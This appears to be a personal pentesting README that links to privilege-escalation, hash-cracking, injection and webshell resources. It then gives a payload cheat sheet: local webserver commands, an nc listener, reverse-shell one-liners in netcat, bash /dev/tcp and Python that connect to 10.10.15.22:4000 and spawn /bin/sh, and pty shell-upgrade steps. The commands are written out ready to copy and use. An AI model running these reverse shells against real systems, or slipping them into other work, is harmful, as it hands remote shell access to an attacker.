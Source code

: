 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)

## Hash Cracking
-  [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
-  [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
-  [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
-  [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)

## Payloads
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

## Linux Privillage Escalation
-  [**GTFO bins**](https://gtfobins.github.io/)

## Shells
-  [**Webshells**](https://github.com/BlackArch/webshells)
-  [**Reverse Shell Generator**](https://www.revshells.com/)

# Payloads
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
